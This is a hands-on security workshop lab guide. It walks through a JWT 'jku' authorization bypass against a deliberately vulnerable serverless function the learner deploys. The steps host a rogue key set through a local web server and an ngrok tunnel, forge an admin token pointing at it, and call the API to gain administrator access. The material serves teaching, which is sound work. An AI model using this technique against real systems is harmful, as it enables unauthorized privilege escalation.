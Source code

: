 ## JWT - JKU Authorization Bypass

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 3: Run `pipenv install`

```commandline
pipenv install
```

```commandline
pipenv install jwcrypto
```

* Step 4: `pipenv shell`

```commandline
pipenv shell
``` 

* Step 5: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 6: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 7: Install a package for this to work `npm install -g jwt-cli`

```commandline
npm install -g jwt-cli
```

* Step 8: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/JWT-JWK/serverless.yml)

* Step 9: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely

* Step 10: Initialize the Program with the following command 

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

you should see an output like this

```bash
    HTTP/1.1 200 OK
    Connection: keep-alive
    Content-Length: 73
    Content-Type: application/json
    Date: Fri, 26 Jul 2019 11:56:09 GMT
    Via: 1.1 706c647442c234a140558b049b967cc5.cloudfront.net (CloudFront)
    X-Amz-Cf-Id: GPaQyO3YdDda1NBe5hqqZ5a7Mpdf5NgZxm2kjQm1TQk76V2cWQ9m_Q==
    X-Amz-Cf-Pop: BLR50-C1
    X-Amzn-Trace-Id: Root=1-5d3aea58-c194ed1820098bd0973e3f08;Sampled=0
    X-Cache: Miss from cloudfront
    x-amz-apigw-id: dbmNwEp0PHcFY8Q=
    x-amzn-RequestId: 5a8fc007-af9c-11e9-b076-b3cc7c0d1d4b
    
    {
        "url": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
    }
```
* Step 11: Now, obtain a token from the system by logging in

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/login user=admin password=admin
```

you should see output like this

```json
{
    "token": "eyJhbGciOiJSUzI1NiIsImprdSI6Imh0dHBzOi8vandrLXJlc291cmNlcy0xNTY0MTM5NzEyOTI5LnMzLmFtYXpvbmF3cy5jb20vandrcy5qc29uIn0.eyJ1c2VyIjoidXNlciJ9.hsA7nYpgplSmhLLhFX18cJTO2HGJYeqMDT8OQe1IZRWseH9ZDOiSa1QHQvSkhmrVSB8h_0Cw6nCj_v5JblnyUC-peY1nWzDAD1xbZCfY0PDUXaq-mKOxfr1-X0Uotc-UabTISGcciLl3DJvRspJa928xNrMM5JRIpYX3X5UpiucmUcbBtudYn-KPgVJVbAvCxB_cAGTi5IWT7bDMnO5-ofcL29xjo-BYhkX9JVPG3xg6yfKEOTSgFjLq6dbldu_sNX-KSwohKKRVkhIkSQOpIdUcw8u9BMqJ3tSE8fgugEZfu5oGqciz9jo_CRwahkEjkZ8XCc4QtfO_TiL63sDnCA",
    "user": "user"
}
```

* Step 12: Copy the `token` value and run `jwt <copied token value>`

```commandline
jwt <copied token value>
```

or you can check [here](https://jwt.io/)

* You should see something like this

```bash
Header
{
  "alg": "RS256",
  "jku": "https://jwk-resources-1564139712929.s3.amazonaws.com/jwks.json"
}

Payload
{
  "user": "user"
}

```

* Step 13: Now, open another two tabs of your lab image. You have now a total of three tabs. Let's call the current tab, **Tab 1**

In the **Tab 2**: 

* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 15: Run: `python -m http.server`

```commandline
python -m http.server
```

In the **Tab 3**:

* Step 16: Install *ngrok* `wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip`

```commandline
wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-amd64.zip
```
* Step 17: Run `apt-get install unzip`

```commandline
apt-get install unzip
```

* Step 18: `unzip` the *ngrok* `unzip ngrok-stable-linux-amd64.zip`

```commandline
unzip ngrok-stable-linux-amd64.zip
```

* Step 19: Run `./ngrok http 8000`

```commandline
./ngrok http 8000
```

```bash
Session Status                online
Session Expires               7 hours, 10 minutes
Update                        update available (version 2.3.34, Ctrl-U to update
Version                       2.2.8
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://f8ccd11d.ngrok.io -> localhost:8000
Forwarding                    https://f8ccd11d.ngrok.io -> localhost:8000
```

Back in **Tab 1**:
* Step 20: Run `python token_gen.py https://f8ccd11d.ngrok.io` with copied *ngrok*  https `Forwarding` value 

```commandline
python token_gen.py https://<ngrok https forwarding value>.ngrok.io
```
 
* Step 21: Copy the generated token starting `ey....`

* Step 22: Run
 
```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/jwk Authorization:<Copied Token>
```

**Note:** You should see a response, that you are administrator


### Teardown

* Step 23: **Tab 1**, navigate over to `/root/labs/Serverless-Workshop/JWT-JWK`

```commandline
cd /root/labs/Serverless-Workshop/JWT-JWK
```

* Step 24: Run `sls remove` to remove stack

```commandline
sls remove --force
```

* Step 25: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```

* Step 26: **Tab 2** Run `ctrl+c` and close tab

* Step 27: **Tab 3** Run `ctrl+c` and close tab
